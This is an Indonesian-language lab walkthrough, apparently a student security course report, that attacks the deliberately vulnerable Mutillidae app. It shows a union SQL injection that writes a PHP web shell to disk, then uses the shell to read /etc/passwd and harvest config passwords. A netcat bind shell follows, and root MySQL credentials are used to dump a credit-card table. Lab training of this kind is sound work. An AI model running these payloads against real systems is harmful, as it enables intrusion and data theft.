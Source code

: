 # Lesson 10 : SQL Injection Union Exploit #3 (Create PHP Execution Script)

## Start Web Browser Session to Mutillidae
- Buka browser kemudian akses Mutillidae sesuai ip metasploit pada alamat http://10.0.1.100/mutillidae
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/start_browser.png "Home page")

## Go To User Info Page
1. Go to User Info
   - OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info 
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/user_info.png "Home page")

## Inject Backdoor into User Info Page
1. Inspect the Name Textbox with Firebug
   - Klik kanan pada textbox **Name**, kemudian inspect element
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/inspect.png "Home page")
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 100
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/change_size.png "Home page")
3. Second Union SQL Injection Attempt
   - Pada kolom textbox **Name** isikan 
   ```bash
	' union select null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><input type="text" name="CMD" size="50"><input type="submit" value="Execute Command" /></form><?php echo "<pre>";echo shell_exec($_REQUEST["CMD"]);echo "</pre>"; ?>' INTO DUMPFILE '/var/www/html/mutillidae/execute_command.php' -- 
   ```
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol View Account Details
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/union.png "Home page")
4. Viewing the Results
	- Scroll kebawah untuk melihat hasilnya
	- Perhatikan hasilnya
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_9/result_union_2.png "Home page")

## Using the Backdoor for Basic Reconnaissance
1. Initial Reconnaissance
	- Buka url berikut pada browser 
	http://10.0.1.100/mutillidae/execute_command.php
	- Ketikkan perintah berikut pada textbox
	  ```whoami; pwd```
	- Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/whoami.png "Home page")
2. Who is Logged On
   - Ketikkan perintah berikut pada textbox
	 ```w```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/w.png "Home page")
3. Exploring /etc/passwd
   - Ketikkan perintah berikut pada textbox
	 ```cat /etc/passwd```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/cat_passwd.png "Home page")
4. Network Reconnaissance
   - Ketikkan perintah berikut pada textbox
   ```bash
   netstat -nao | grep "0.0.0.0:"
   ```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/netstat.png "Home page")

## Using the Backdoor for Database Reconnaissance
1. Database Reconnaissance
   - Ketikkan perintah berikut pada textbox
   ```bash
   find * -name "*.php" | xargs grep -i "password" | grep "="
   ```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/find.png "Home page")
2. View Database Authentication Attributes
   - Ketikkan perintah berikut pada textbox
   ```bash
   cat config.inc | grep -v "<?php"
   ```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/cat_config.png "Home page")

##  Using the Backdoor for Netcat Reconnaissance
1. Netcat Reconnaissance
   - Ketikkan perintah berikut pada textbox
   ```bash
   which nc; netstat -nao | grep 4444 | wc -l
   ```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/which_nc.png "Home page")
2. Execute Netcat
   - Ketikkan perintah berikut pada textbox
   ```bash
   mkfifo /tmp/pipe;sh /tmp/pipe | nc -l 4444 > /tmp/pipe
   ```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/mkfifo.png "Home page")
3. On BackTrack, Start up a "another" terminal window
	- Buka terminal lain pada kali linux
4. Connect to Netcat
   - Buka koneksi ke mutillidae menggunakan netcat
   - Ketikkan perintah : `nc 10.0.1.100 4444`
   - Ketikkan perintah : `hostname` untuk melihat hostname
   - Ketikkan perintah : `whoami` untuk melihat user yang digunakan
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/terminal_nc.png "Home page")
5. View Credit Card Information
   - Pada terminal ketikkan printah-perintah berikut :
   ```bash
   echo "show databases;" | mysql -uroot -psamurai
   echo "use nowasp; show tables;" | mysql -uroot -psamurai
   echo "select * from nowasp.credit_cards;" | mysql -uroot -psamurai
   ```
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/terminal_data.png "Home page")

## Note
- Agar file **execute_command.php** dapat dibuat pada metasploit, pastikan anda sudah menonaktifkan apparmor
- Konfigurasi untuk menonaktifkan AppArmor ada [disini](https://github.com/luqmanahmads/laporan-pksj/blob/master/Laporan_Tugas_Final/konfigurasi_apparmor.md)